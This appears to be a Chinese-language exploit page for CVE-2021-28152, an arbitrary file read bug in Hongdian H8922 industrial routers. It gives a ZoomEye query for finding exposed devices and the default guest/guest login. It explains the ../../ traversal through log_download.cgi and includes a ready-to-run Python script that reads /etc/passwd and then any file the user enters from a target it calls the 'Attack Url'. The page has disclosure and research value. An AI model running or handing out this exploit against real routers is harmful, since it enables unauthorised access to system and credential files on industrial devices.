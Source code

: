 # 宏电 H8922 后台任意文件读取漏洞 CVE-2021-28152

## 漏洞描述

宏电 H8922 后台存在任意文件读取漏洞，低权限用户通过漏洞可以获取任意文件内容

## 漏洞影响

```
宏电 H8922
```

## ZoomEye

```
app:"Hongdian H8922 Industrial Router"
```

## 漏洞复现

登录后台(存在访客用户默认账号密码 guest/guest)

漏洞存在于 log_download.cgi 文件中

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202140919551.png)

使用type参数读取文件并下载日志给用户，使用 **../../** 可以跳转根目录读取任意文件

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202140919033.png)

## 漏洞POC

```python
import requests
import sys
import random
import re
from lxml import etree
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mTitle  : 宏电 H8922 后台任意文件读取漏洞 CVE-2021-28152                 \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, filename):
    vuln_url = target_url + "/log_download.cgi?type=../..{}".format(filename)
    headers = {
            "Content-Type": "application/x-www-form-urlencoded",
            "Authorization": "Basic Z3Vlc3Q6Z3Vlc3Q="
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}/log_download.cgi?type=../../etc/passwd \033[0m".format(target_url))
        if "root" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,存在访客账号 guest/guest 成功读取 /etc/passwd \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
            while True:
                filename = input("\033[35mFilename >>> \033[0m")
                if filename == "exit":
                    sys.exit(0)
                else:
                    POC_2(target_url, filename)
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, filename):
    vuln_url = target_url + "/log_download.cgi?type=../..{}".format(filename)
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
        "Authorization": "Basic Z3Vlc3Q6Z3Vlc3Q="
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] {} \033[0m".format(response.text))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    filename = '/etc/passwd'
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url, filename)
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202140919213.png)